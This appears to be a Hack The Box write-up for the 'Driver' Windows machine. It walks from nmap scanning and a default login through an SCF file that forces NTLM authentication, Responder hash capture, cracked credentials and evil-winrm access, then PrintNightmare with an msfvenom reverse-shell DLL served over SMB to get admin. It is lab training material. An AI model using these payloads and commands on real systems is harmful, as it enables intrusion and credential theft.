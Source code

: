 # Driver

- Target Machine: 10.129.230.91

## Enumeration

### nmap scan

```bash
# Nmap 7.92SVN scan initiated Sun Oct  3 11:59:14 2021 as: nmap -sC -sV -oN nmap/initial 10.129.230.91
Nmap scan report for 10.129.230.91
Host is up (0.068s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2021-10-03T16:59:46
|_  start_date: 2021-10-03T16:57:34
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  3 12:00:24 2021 -- 1 IP address (1 host up) scanned in 70.93 seconds
```

### Website analysis

After opening the website, we get prompted with a login form. Using the credentials admin:admin lets us login.
On the page `http://10.129.230.91/fw_up.php` we can find a file upload form with the message __"Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon."__

We can use a [SCF file attack](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) to get a valid hash that can be used to login. We can upload a .scf file that will get read by the share, which will then automatically try to access our injected address. All we have to do is catch that access request with responder.py

@payload.scf
```ini
[Shell]
Command=2
IconFile=\\10.10.14.92\share\payload.ico
[Taskbar]
Command=ToggleDesktop
```

```log
[exyss@exyss Responder]$ sudo python Responder.py -wrf --lm -v -I tun0
...

[+] Listening for events...

[SMB] NTLMv2 Client   : 10.129.230.91
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:c13453a23e6db02e:78BDAFD08E253E5746978DF27FD4BF29:0101000000000000DE68E94E7FB8D701E813B01C171EECC600000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.129.230.91
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:743596810fe22acf:0C84F3056F0F1BF105B3FA1C11BB834B:0101000000000000C368084F7FB8D7017B5D4BF64FC8520300000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.129.230.91
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:dab0e3df6707a751:AA012BEC467AD8679108C4447CF5CFCF:0101000000000000AE03254F7FB8D701773274C543415A2B00000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.129.230.91
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:122998ef1f0278d7:7C3D7484EE863F13CD16DD3DEABC5ECE:0101000000000000C29F414F7FB8D701CE4BD154B7B3FAFD00000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.129.230.91
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:4fa10451e78b675c:7B20CD55B4A1B813C83EC901CE8A40CE:0101000000000000973D5E4F7FB8D701A33E0E3E602AEE5500000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.129.230.91
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:c9f4dc0a581ab41d:A646CAEC870EA9106FFDEDC46192E574:0101000000000000F63B7D4F7FB8D70116107EF3BFCA7A6400000000020000000000000000000000
[SMB] NTLMv2 Client   : 10.129.230.91
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:77d6483e9585501a:4ECBBAA35C34043AE73A977BDB557D36:010100000000000043F1994F7FB8D701766ED51CC51FA1E100000000020000000000000000000000
```

We can use JohnTheRipper to crack this hash, finding out that tony's password is `liltony`.
We can use this credentials to access the machine using [evil-winrm](https://github.com/Hackplayers/evil-winrm)

```log
[exyss@exyss evil-winrm]$ bundle exec evil-winrm.rb -i driver.htb -u tony -p liltony

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> dir
*Evil-WinRM* PS C:\Users\tony\Documents> cd ..   
*Evil-WinRM* PS C:\Users\tony> cd Desktop
*Evil-WinRM* PS C:\Users\tony\Desktop> dir


    Directory: C:\Users\tony\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        10/3/2021   9:58 AM             34 user.txt
```

## Priviledge escalation

By running `Get-Service -Name Spooler`, we can see that this service is running. A famous unpatched Windows CVE is the PrintNightmare exploit (or [CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)). This vulnerability enables a local user to get admin priviledges in a _very very very easy way_

```log
*Evil-WinRM* PS C:\Users\tony\Downloads> Get-Service -Name Spooler

Status   Name               DisplayName
------   ----               -----------
Running  Spooler            Print Spooler
```

We can setup an SMB server hosting a reverse shell created with msfvenom, which will be retrieved and executed through the CVE.
Once the third try fails, the reverse shell will get triggered, giving us admin access. The root flag can be found in the admin desktop

```bash
# ON THE FIRST TAB
[exyss@exyss CVE-2021-1675]$ msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=10.10.14.92 LPORT=443 -o /tmp/revshell.dll

[exyss@exyss CVE-2021-1675]$ sudo smbserver.py smb '/tmp' -smb2support

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

# ON A SECOND TAB

[exyss@exyss evil-winrm]$ sudo msfconsole

msf6 > use exploit/multi/handler/
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.92
lhost => 10.10.14.92
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.92:443 

# ON A THIRD TAB

[exyss@exyss CVE-2021-1675]$ python CVE-2021-1675.py tony:liltony@driver.htb '\\10.10.14.92\smb\revshell.dll'
[*] Connecting to ncacn_np:driver.htb[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.14.92\smb\revshell.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...

# AGAIN ON THE SECOND TAB

[*] Command shell session 1 opened (10.10.14.92:443 -> 10.129.230.91:49432) at 2021-10-03 18:22:00 +0200


Shell Banner:
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> type root.txt
```
